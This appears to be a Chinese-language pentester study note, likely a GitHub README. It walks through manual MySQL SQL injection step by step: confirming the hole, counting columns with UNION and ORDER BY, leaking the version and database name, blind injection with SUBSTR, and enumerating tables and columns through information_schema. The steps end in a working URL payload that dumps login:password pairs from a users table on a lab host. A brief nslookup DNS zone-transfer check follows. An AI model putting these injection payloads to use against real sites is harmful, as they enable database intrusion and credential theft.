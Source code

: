 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理


###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');
http://172.16.45.128/cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1

5. 获取字段
select column_name from information_schema.columns where table_name = 'users'

6. 获取数据
http://172.16.45.128/cat.php?id=1 union select 1,(select concat(login,':',password) from users),1,1

- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

